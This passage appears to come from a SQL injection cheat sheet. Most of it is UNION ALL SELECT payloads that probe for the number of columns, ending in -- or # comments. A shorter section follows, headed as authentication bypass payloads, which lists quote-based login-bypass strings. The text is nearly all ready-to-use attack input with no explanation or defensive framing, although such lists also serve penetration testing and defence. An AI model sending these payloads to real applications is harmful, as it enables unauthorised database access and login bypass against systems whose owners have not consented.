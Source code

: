 ```
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
```

#### SQL Injection Auth Bypass Payloads

```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
```